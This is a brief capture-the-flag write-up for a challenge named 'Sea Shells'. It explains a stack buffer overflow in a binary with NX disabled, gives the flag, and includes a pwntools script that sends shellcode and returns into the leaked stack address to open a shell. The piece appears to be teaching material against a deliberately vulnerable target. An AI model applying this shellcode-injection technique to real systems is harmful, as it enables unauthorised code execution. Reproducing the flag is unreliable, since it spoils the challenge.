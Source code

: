 # Sea Shells

The binary prints the address of our input, then uses read to read input into it. There's 16 bytes of buffer overflow, letting us overwrite rbp and the return address only. As NX is off and our input is on the stack, we can just set the return address to our input, and then put shellcode in our input. After popping a shell, we cat flag.txt to get the flag.

#### Flag: flag{popping_shells_by_the_sea_shore}

```py
from pwn import *
context.arch = 'amd64'
e = ELF("./seashells")
p = e.process() if args.LOCAL else remote('challenge.ctf.games', 32134)
addr = int(p.recvline(),16)
p.recvuntil(":")
sc = asm(shellcraft.amd64.linux.sh())
payload = fit({0: sc, 0x88: addr})
p.sendline(payload)
p.interactive()
```

